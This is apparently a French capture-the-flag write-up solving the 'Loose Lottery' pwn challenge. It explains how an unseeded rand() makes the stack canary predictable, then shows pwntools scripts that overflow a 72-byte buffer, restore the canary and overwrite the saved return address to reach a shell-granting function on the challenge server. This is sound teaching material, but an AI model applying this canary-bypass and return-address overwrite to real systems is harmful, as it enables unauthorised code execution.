





# 1 Loose Lottery

## Recherche de vulnérabilité

On commence par analyser le main dans IDA



On voit dans un pemier temps que si l'on est un nouvel arrivant, alors on peut faire autant de tirage que l'on veut.  
On voit également que le paramètre fourni à la fonction `tirage` est incrémenté à chaque tour de boucle.

La fonction `tirage` est la suivante:



Cette fonction nous demande un input, le converti en un `int` et le compare avec une valeur aléatoire.  
Si la comparaison réussie, alors on appelle la fonction `gagne` qui nous donne un shell.  
On se doute qu'il va falloir réussir à appeler cette fonction. 

Le nombre à trouver provient de la fonction `rand()`, ce qui nous donne 1 chance sur 4294967296 de réussir.  
Une attaque par force brute est envisageable mais ce n'est pas l'objectif de ce challenge.

Lorsque l'on cherche des vulnérabilités, on regarde en particulier les fonctions qui récupèrent de la donnée utilisateur.  
Dans notre cas il y a `main` avec la fonction `getc` mais ça ne permet pas de faire grand chose.  
Il y a également `tirage` avec `read` qui permet de controller le contenu d'un buffer.  

Par ailleurs, cette fonction est protégée contre les buffer overflow grace à l'utilisation d'une variable canary.  
Ce canary est définit dans la fonction `init`.  
On voit dans la [documentation](https://man7.org/linux/man-pages/man3/rand.3.html) que si aucune graine n'est fournie (via `srand`), 
alors la valeur **1** est utilisée comme graine.  
Or si l'on connait la graine d'un générateur pseudo aléatoire, on peut calculer tous les nombres générés par la suite.  
Donc ici la valeur du canary est toujours la même et on peut la calculer

```c
#include <stdio.h>
#include <stdlib.h>

void main(){
    srand(1);
    printf("Canary = %d\n", rand());
}
```


La taille de la donnée que l'on peut envoyer dans le buffer est contrôllé par la variable `a1` qui provient des paramètres donnés à la fonction.  
Le buffer de destination a une taille fixe de 72 caractètes donc si `tirage` est appelée avec comme argument `a1` suppérieur à 7, alors on peut overflow.

En examinant la fonction `main` on voit qu'il y a un moyen d'appeler `tirage` avec une valeur suppérieure à 7 en faisant 7 tours de boucle.

Le code python suivant devrait alors exploiter cet overflow 

```python
from pwn import *

exe_path = './1_chal'

if args.REMOTE:
    io = remote("lottery.serviel.fr", 1234, ssl=True)
else:
    io = process(exe_path)

io.sendlineafter(b'arrivant ? (y/n)', b'Y')

for i in range(10):
    io.sendlineafter(b'votre choix : ', b'0')
    io.sendlineafter(b'continue ? (y/n)', b'y')

io.sendlineafter(b'votre choix : ', b'A'*80)

io.interactive()
```

## Exploitation

La stratégie d'exploitation va être d'utiliser cet overflow dans la stack pour écraser le `saved_rip` de la stak frame de `tirage`.  
On va la remplacer par l'addresse de la fonction `gagne` qui nous donne directement un terminal.

Mais il faut faire attention à bien remettre le canary dans la stack pour passer le check à la fin de la fonction.  
Pour ça il nous faut trouver l'offset à partir duquel on écrase le canary.  

Heureusement le développeur nous affiche la valeur du canary si elle a bougé. On peut alors overflow avec un pattern reconnaissable pour trouver cet offset.



0x44 correspond au caractère `D`, le canary est donc à l'offset 72

Il n'y a plus qu'à récupérer l'addresse de `gagne`, pour cela j'utilise l'utilitaire `readelf`, et à trouver l'offset de `saved_rip`



Pour trouver l'offset de `saved_rip` je place un breakpoint à la fin de la fonction `tirage` au moment de la comparaison du canary (addresse 0x40135C), puis j'affiche la stack à partir du canary



J'y retrouve bien mon canary, puis on voit un peut après la valeur `0x00000000004014dc` qui correspond à une addresse dans la fonction `main` juste après un appel à `tirage`. C'est ça mon `saved_rip` !  
Il est 24 octets après mon canary.

```python
from pwn import *

io = remote("lottery.serviel.fr", 1234, ssl=True)

# dire que l'on est un nouvel arrivant permet d'entrer dans la boucle qui incrémente nb_tirage
io.sendlineafter(b'arrivant ? (y/n)', b'Y')

# On incrémente nb_tirage pour pouvoir faire un overflow
for i in range(10):
    io.sendlineafter(b'votre choix : ', b'0')
    io.sendlineafter(b'continue ? (y/n)', b'y')

p = b'A'*72
p += p64(1804289383)
p += b'B' * 24
p += p64(0x40127f)

io.sendlineafter(b'votre choix : ',p)

# Si tout va bien on récupère un terminal
io.interactive()
```